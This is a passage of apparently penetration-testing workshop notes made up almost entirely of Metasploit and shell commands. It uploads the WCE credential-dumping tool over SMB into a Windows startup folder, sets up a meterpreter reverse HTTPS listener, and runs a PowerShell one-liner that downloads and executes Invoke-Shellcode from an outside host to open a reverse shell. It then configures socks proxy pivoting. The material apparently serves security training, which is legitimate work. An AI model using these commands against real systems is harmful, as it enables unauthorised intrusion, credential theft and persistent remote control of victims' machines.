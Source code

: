  
 
-- Option 4:
use auxiliary/admin/smb/upload_file
 
set SMBUser Workshop
 
set SMBPass password
 
set LPATH /home/strategicsec/binaries/wce.exe
 
set RPATH "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\wce.exe"
 
set RHOST 192.168.10.129                      
 
run
 
 
-- Option 5:
use exploit/multi/handler
set ExitOnSession false
set payload windows/meterpreter/reverse_https
set LHOST 192.168.10.128
set LPORT 4443
set EXITFUNC thread
exploit -j
 
 
 
sessions -i 1
shell
powershell -command "IEX (New-Object Net.WebClient).DownloadString('https://s3.amazonaws.com/StrategicSec-Files/Powersploit/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.10.128 -Lport 4443 -Force"
 
 
###################
# Socks Tunneling #
###################
 
sudo vi /etc/proxychains.conf                           <--- Make sure that last line of the file is: socks4  127.0.0.1 1080
 
        --- Open a duplicate putty session to your Ubuntu host
        sudo vi /etc/proxychains.conf
       
        Comment out the proxy_dns, change the 9050 (tor port) to the metasploit socks proxy port (1080) and save it.
        socks4  127.0.0.1 1080
 
***************************Set up a Socks Proxy through your Pivot *************************
 
 
use auxiliary/server/socks4a
 
set SRVHOST 127.0.0.1
 
set SRVPORT 1080
 
run
 